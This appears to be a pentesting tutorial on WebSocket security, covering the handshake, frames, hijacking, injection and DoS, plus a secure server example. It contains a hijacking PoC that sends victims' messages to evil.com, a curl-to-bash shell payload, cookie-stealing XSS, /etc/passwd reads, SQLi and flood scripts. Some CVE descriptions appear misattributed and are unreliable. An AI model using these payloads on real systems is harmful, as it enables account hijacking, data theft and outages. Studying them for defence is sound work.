

# 🔌 WebSockets — Security Analysis & Exploitation

> **Module:** Web Pentesting → HTTP Protocol  
> **Difficulty:** Beginner → Expert  
> **Tags:** `#websockets` `#cswsh` `#ws-hijacking` `#real-time` `#burpsuite` `#wscat`

---

## 🧠 What Are WebSockets?

WebSocket is a **full-duplex, persistent, TCP-based communication protocol** that enables real-time bidirectional communication between client and server. Unlike HTTP's request-response model, once a WebSocket connection is established, both sides can send data at any time without a new request.

```
HTTP:                           WebSocket:
Client  Server                  Client    Server
  │──req──►│                      │──────────────────────────────│
  │◄─res───│                      │   Persistent TCP Connection  │
  │        │                      │◄─────────────────────────────│
  │──req──►│                      │──────────────────────────────│
  │◄─res───│                      │◄─────────────────────────────│
  (new TCP per req or Keep-Alive) │  (Both send whenever they want)
```

**Use cases:**
- Live chat applications
- Real-time trading platforms / stock tickers
- Multiplayer online games
- Collaborative editing (Google Docs-style)
- Live sports scores / dashboards
- IoT device communication
- Financial data feeds

---

## 📊 WS vs HTTP Comparison

| Feature              | HTTP                          | WebSocket                       |
|----------------------|-------------------------------|----------------------------------|
| Direction            | Unidirectional (req→res)      | Full-duplex (both directions)    |
| Connection           | New per request (or Keep-Alive)| Persistent until closed          |
| Protocol             | Text (HTTP/1.1) or Binary (HTTP/2)| Binary frames                  |
| State                | Stateless                     | Stateful                         |
| Overhead             | Headers on every request      | Minimal after handshake          |
| URL scheme           | `http://`, `https://`         | `ws://`, `wss://`                |
| Default port         | 80, 443                       | 80 (ws), 443 (wss)              |
| SOP enforced?        | Yes (for reads)               | **No for connection** (Origin-based)|
| Firewall/proxy       | Well supported                | May be blocked by old proxies    |

---

## 🏗️ WebSocket Handshake — Full Technical Breakdown

WebSocket starts as an HTTP request and upgrades the connection:

### Client Upgrade Request:
```http
GET /ws/chat HTTP/1.1
Host: ws.example.com
Upgrade: websocket                              ← Requesting protocol upgrade
Connection: Upgrade                             ← Connection must change
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==   ← Random base64 nonce (client-generated)
Sec-WebSocket-Version: 13                       ← WS protocol version (always 13)
Sec-WebSocket-Extensions: permessage-deflate   ← Optional: compression extension
Sec-WebSocket-Protocol: chat, superchat        ← Optional: app subprotocol negotiation
Origin: https://app.example.com                ← 🔑 Origin header (for CSWSH validation!)
Cookie: session=abc123; auth=xyz               ← 🔑 Cookies sent automatically!
User-Agent: Mozilla/5.0...
```

### Server 101 Response:
```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=   ← Computed from client's key
Sec-WebSocket-Protocol: chat                           ← Selected subprotocol
Sec-WebSocket-Extensions: permessage-deflate           ← Confirmed extension
```

### Sec-WebSocket-Accept Calculation:
```python
import hashlib, base64

client_key = "dGhlIHNhbXBsZSBub25jZQ=="
magic_guid = "258EAFA5-E914-47DA-95CA-C5AB0DC85B11"

combined = client_key + magic_guid
sha1_hash = hashlib.sha1(combined.encode()).digest()
accept = base64.b64encode(sha1_hash).decode()
print(accept)  # s3pPLMBiTxaQ9kYGzzhZRbK+xOo=
```

---

## ⚙️ WebSocket Frame Structure

After the handshake, communication happens via binary frames:

```
WebSocket Frame:
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
├─┼─┼─┼─┼─────────┼─┼─────────────────────────────────────────────┤
│F│R│R│R│ Opcode  │M│    Payload Length (7 bits or extended)       │
│I│S│S│S│(4 bits) │A│                                              │
│N│V│V│V│         │S│                                              │
│ │1│2│3│         │K│                                              │
├─┴─┴─┴─┴─────────┴─┼─────────────────────────────────────────────┤
│  Masking Key (32 bits, only if MASK=1, always for client→server) │
├────────────────────┴─────────────────────────────────────────────┤
│                    Payload Data                                   │
└───────────────────────────────────────────────────────────────────┘

FIN: 1 = final fragment of message
Opcodes:
  0x0 = Continuation frame
  0x1 = Text frame       ← Most common (JSON, strings)
  0x2 = Binary frame
  0x8 = Close connection
  0x9 = Ping
  0xA = Pong
MASK: Clients MUST mask data (XOR with 4-byte key); servers must NOT mask
```

---

## 🔴 WebSocket Security Vulnerability 1: Cross-Site WebSocket Hijacking (CSWSH)

**The most dangerous WebSocket vulnerability.** Analogous to CSRF but for WebSockets.

**Root cause:** The WebSocket handshake:
1. Is a regular HTTP request → browser sends cookies automatically
2. SOP does NOT prevent cross-origin WebSocket connections (unlike fetch/XHR reads)
3. Only `Origin` header indicates where the request came from
4. If server doesn't validate `Origin` → any website can initiate WS connection as victim

```
Why SOP doesn't protect WebSockets:
- SOP prevents cross-origin script from READING responses
- But a WebSocket connection doesn't get "blocked by SOP"
- The connection succeeds, and attacker's page can read all messages!
```

### Attack Flow Diagram:



### Full PoC — CSWSH Attack:

```html
<!DOCTYPE html>
<html>
<head><title>CSWSH PoC</title></head>
<body>
<h2>Cross-Site WebSocket Hijacking PoC</h2>
<div id="output">Connecting...</div>

<script>
// This page is hosted on evil.com
// Victim must be logged into target.example.com

const targetWS = 'wss://target.example.com/ws/chat';
const exfilURL = 'https://evil.com/collect';

var stolenData = [];

// Create WebSocket — browser AUTOMATICALLY sends victim's cookies!
var ws = new WebSocket(targetWS);

ws.onopen = function() {
    document.getElementById('output').textContent = '✅ Connected! Hijacking session...';
    console.log('[CSWSH] WebSocket connected with victim cookies!');
    
    // Send messages as the victim
    ws.send(JSON.stringify({
        "action": "get_history",
        "limit": 100
    }));
    
    ws.send(JSON.stringify({
        "action": "get_user_profile"
    }));
    
    ws.send(JSON.stringify({
        "action": "get_payment_methods"
    }));
};

ws.onmessage = function(event) {
    var data = event.data;
    stolenData.push(data);
    
    document.getElementById('output').innerHTML += 
        '<br>📥 Received: ' + data.substring(0, 100);
    
    // Exfiltrate to attacker server
    fetch(exfilURL, {
        method: 'POST',
        body: JSON.stringify({
            message: data,
            timestamp: new Date().toISOString()
        }),
        mode: 'no-cors'  // Don't care about CORS on our own server
    });
};

ws.onerror = function(e) {
    document.getElementById('output').textContent = '❌ Error - server may validate Origin';
};

ws.onclose = function(e) {
    document.getElementById('output').textContent += '<br>Connection closed. Exfiltrating...';
    // Final batch exfiltration
    navigator.sendBeacon(exfilURL + '/batch', JSON.stringify(stolenData));
};
</script>
</body>
</html>
```

---

## 🔴 WebSocket Security Vulnerability 2: No Origin Validation

```python
# Vulnerable WebSocket server (Python websockets library)
import asyncio
import websockets

async def handler(websocket, path):
    # VULNERABLE: Never checks Origin header!
    # Any origin can connect
    async for message in websocket:
        await websocket.send(f"Echo: {message}")

asyncio.get_event_loop().run_until_complete(
    websockets.serve(handler, "0.0.0.0", 8765)
)
```

```python
# Secure version: validate Origin header
import asyncio
import websockets

ALLOWED_ORIGINS = {"https://app.example.com", "https://www.example.com"}

async def handler(websocket, path):
    # Get Origin from handshake headers
    origin = websocket.request_headers.get("Origin", "")
    
    if origin not in ALLOWED_ORIGINS:
        await websocket.close(1008, "Origin not allowed")
        return
    
    async for message in websocket:
        await websocket.send(f"Echo: {message}")
```

---

## 🔴 WebSocket Security Vulnerability 3: Injection via WS Messages

WebSocket messages are often processed by the same backend code as HTTP requests — with the same injection vulnerabilities:

### SQL Injection via WebSocket:

```javascript
// Attacker sends malicious WS message
ws.send(JSON.stringify({
    "action": "search",
    "query": "'; DROP TABLE users;--"
}));

ws.send(JSON.stringify({
    "action": "search",
    "query": "' UNION SELECT username,password FROM admins--"
}));

// Or time-based blind SQLi via WS
ws.send(JSON.stringify({
    "query": "'; SELECT SLEEP(5)--"
}));
```

### Command Injection via WebSocket:

```javascript
// Ping utility exposed via WebSocket
ws.send(JSON.stringify({
    "action": "ping",
    "host": "8.8.8.8; cat /etc/passwd"
}));

ws.send(JSON.stringify({
    "action": "ping",
    "host": "$(curl https://attacker.com/shell.sh | bash)"
}));
```

### XSS via WebSocket:

```javascript
// If server broadcasts WS messages to all users (chat app)
// And messages are rendered to DOM without sanitization:

ws.send(JSON.stringify({
    "type": "chat",
    "message": "<script>fetch('https://attacker.com/xss?c='+document.cookie)</script>"
}));

ws.send(JSON.stringify({
    "type": "chat",
    "message": ""
}));
```

---

## 🔴 WebSocket Security Vulnerability 4: No Authentication After Upgrade

```
Vulnerability: App authenticates HTTP request, but once WS is open,
any WS message is processed without re-checking auth.

Attack:
1. Find WebSocket endpoint that doesn't require auth for WS messages
2. Connect to WS with expired/invalid token (handshake may still succeed)
3. Send privileged action messages directly
```

```python
# Vulnerable pattern: auth only at connection time, not per-message
async def handler(websocket, path):
    # Auth check only once during connection
    token = websocket.request_headers.get("Authorization", "")
    user = await verify_token(token)
    
    if not user:
        await websocket.close(1008, "Unauthorized")
        return
    
    async for message in websocket:
        data = json.loads(message)
        # NO auth check here! Any action is processed for ANY authenticated user
        if data['action'] == 'admin_delete_user':
            await delete_user(data['user_id'])  # Privilege escalation!
```

---

## 🔴 WebSocket Security Vulnerability 5: Insecure ws:// (No TLS)

```javascript
// Insecure WebSocket connection
var ws = new WebSocket('ws://example.com/chat');  // ← Plaintext!

// All messages visible to MITM attacker:
// ws.send(JSON.stringify({token: "SECRET_SESSION_TOKEN", message: "..."}));
// ws.send(JSON.stringify({creditCard: "4111111111111111", cvv: "123"}));
```

**MITM attack on ws://:**
```bash
# Using mitmproxy to intercept and modify WebSocket traffic
mitmproxy --mode transparent
# Or:
mitmdump -s ws_intercept.py
# ws_intercept.py can read/modify/inject WS frames

# Wireshark WebSocket filter
# ws or websocket — filter WebSocket frames
# ws.payload — view decoded payload
```

---

## 🔴 WebSocket DoS Attacks

```javascript
// Connection flood
for(let i = 0; i < 10000; i++) {
    new WebSocket('wss://target.com/ws');
}

// Message flood (exhaust server memory/CPU)
var ws = new WebSocket('wss://target.com/ws');
ws.onopen = function() {
    // Send massive messages rapidly
    setInterval(() => {
        ws.send('A'.repeat(65535));  // Max frame size
    }, 0);
};

// Slowloris for WebSocket: open connection, send nothing, keep alive
var ws = new WebSocket('wss://target.com/ws');
setInterval(() => {
    ws.send("ping");  // Just enough to keep alive
}, 30000);
```

---

## 🛠️ Testing WebSockets in Burp Suite

```
1. Proxy → WebSockets history tab (separate from HTTP history)
   - Shows all WS messages (sent and received)
   - Direction indicated (→ outgoing, ← incoming)
   - Can view full message content

2. Intercept WebSocket messages:
   Proxy → Options → Intercept Server/Client Messages
   - Intercept and modify messages on-the-fly

3. WebSocket Repeater:
   - Right-click WS message → Send to Repeater
   - Modify and resend individual WS messages
   - Great for injection testing

4. Testing CSWSH:
   - Copy WebSocket handshake request from HTTP history
   - Observe Origin header
   - Replay from different Origin using Burp Repeater
   - If handshake succeeds with modified Origin → CSWSH vulnerable
```

---

## 🛠️ wscat — WebSocket Testing Tool

```bash
# Install wscat
npm install -g wscat

# Basic connection
wscat -c wss://target.example.com/ws

# Connect with authentication header
wscat -c wss://target.example.com/ws \
      -H "Authorization: Bearer eyJhbGci..."

# Connect with custom headers
wscat -c wss://target.example.com/ws \
      -H "Origin: https://trusted.example.com" \
      -H "Cookie: session=abc123"

# Send messages interactively
> {"action": "ping"}
< {"type": "pong", "server_time": "2024-01-01T00:00:00Z"}
> {"action": "get_user_data"}
< {"user": {"id": 1, "name": "Alice", "balance": 50000}}

# Test with evil origin
wscat -c wss://target.example.com/ws \
      -H "Origin: https://evil.com"
# If connection succeeds → no origin validation!
```

## 🛠️ websocat — Advanced WebSocket Tool

```bash
# Install
cargo install websocat
# or: apt install websocat

# Connect and send messages
echo '{"action":"test"}' | websocat wss://target.com/ws

# Interactive session
websocat wss://target.com/ws

# Send file content
websocat wss://target.com/ws < payload.json

# With custom headers
websocat -H "Authorization: Bearer TOKEN" \
         -H "Origin: https://evil.com" \
         wss://target.com/ws

# Verbose mode (see handshake)
websocat -v wss://target.com/ws
```

---

## 🛠️ Automating WebSocket Security Tests

```python
#!/usr/bin/env python3
"""WebSocket Security Tester"""
import asyncio
import websockets
import json

TARGET = "wss://target.example.com/ws"
SESSION_COOKIE = "session=victim_token_here"

INJECTION_PAYLOADS = [
    # SQL injection
    {"action": "search", "query": "' OR '1'='1"},
    {"action": "search", "query": "'; SELECT SLEEP(5)--"},
    # XSS
    {"action": "message", "content": "<script>alert(1)</script>"},
    {"action": "message", "content": ""},
    # Command injection
    {"action": "ping", "host": "8.8.8.8; id"},
    {"action": "exec", "command": "whoami"},
    # Path traversal
    {"action": "read_file", "path": "../../../../etc/passwd"},
    # SSRF
    {"action": "fetch_url", "url": "http://169.254.169.254/latest/meta-data/"},
]

async def test_ws_security():
    print(f"[*] Connecting to {TARGET}")
    
    # Test 1: Origin validation
    for origin in ["https://evil.com", "null", "https://evil.target.example.com"]:
        try:
            async with websockets.connect(
                TARGET,
                extra_headers={"Origin": origin, "Cookie": SESSION_COOKIE}
            ) as ws:
                print(f"[!] CSWSH: Origin '{origin}' accepted!")
                await ws.send('{"action": "test"}')
                response = await asyncio.wait_for(ws.recv(), timeout=3)
                print(f"    Response: {response[:100]}")
        except Exception as e:
            print(f"[+] Origin '{origin}' rejected: {str(e)[:50]}")
    
    print()
    
    # Test 2: Injection payloads
    try:
        async with websockets.connect(
            TARGET,
            extra_headers={"Cookie": SESSION_COOKIE}
        ) as ws:
            print("[*] Testing injection payloads...")
            for payload in INJECTION_PAYLOADS:
                await ws.send(json.dumps(payload))
                try:
                    response = await asyncio.wait_for(ws.recv(), timeout=5)
                    print(f"[?] Payload: {payload}")
                    print(f"    Response: {response[:200]}")
                    print()
                except asyncio.TimeoutError:
                    print(f"[!] TIMEOUT for payload: {payload} (possible blind SQLi!)")
    except Exception as e:
        print(f"[-] Connection failed: {e}")

asyncio.run(test_ws_security())
```

---

## 🛡️ Secure WebSocket Implementation

```javascript
// Node.js + ws library — Secure WebSocket server
const WebSocket = require('ws');
const https = require('https');
const fs = require('fs');

const ALLOWED_ORIGINS = new Set([
    'https://app.example.com',
    'https://www.example.com'
]);

const wss = new WebSocket.Server({
    server: httpsServer,
    verifyClient: function(info, done) {
        const origin = info.origin;
        const sessionCookie = info.req.headers.cookie;
        
        // 1. Validate Origin header
        if (!ALLOWED_ORIGINS.has(origin)) {
            console.log(`Rejected WS connection from origin: ${origin}`);
            return done(false, 403, 'Forbidden');
        }
        
        // 2. Validate session cookie / token
        const session = parseSessionFromCookie(sessionCookie);
        if (!isValidSession(session)) {
            return done(false, 401, 'Unauthorized');
        }
        
        // Attach session to request for use in message handlers
        info.req.session = session;
        done(true);
    }
});

wss.on('connection', function(ws, req) {
    const user = req.session.user;
    
    ws.on('message', function(message) {
        // 3. Validate EVERY message, not just connection
        let data;
        try {
            data = JSON.parse(message);
        } catch(e) {
            ws.send(JSON.stringify({error: 'Invalid JSON'}));
            return;
        }
        
        // 4. Authorize each action
        if (data.action === 'admin_action' && !user.isAdmin) {
            ws.send(JSON.stringify({error: 'Unauthorized'}));
            return;
        }
        
        // 5. Sanitize inputs (prevent injection)
        const sanitizedQuery = sanitize(data.query);
        
        // Process...
    });
    
    // 6. Implement rate limiting
    ws.messageCount = 0;
    ws.on('message', () => {
        ws.messageCount++;
        if (ws.messageCount > 100) {  // 100 messages per connection limit
            ws.close(1008, 'Rate limit exceeded');
        }
    });
});
```

---

## 📚 WebSocket Security CVEs

| CVE              | Year | Description                                                    |
|------------------|------|----------------------------------------------------------------|
| CVE-2019-9192    | 2019 | WS library DoS via malformed frames                            |
| CVE-2020-7662    | 2020 | websocket-extensions ReDoS vulnerability                       |
| CVE-2021-32640   | 2021 | ws library DoS via special mask value                          |
| CVE-2022-24999   | 2022 | qs library prototype pollution via WebSocket JSON              |
| Multiple         | 2018 | Dozens of CSWSH findings in bug bounty programs                |

---

*Last updated: 2024 | HackerNotes Web Pentesting Series*
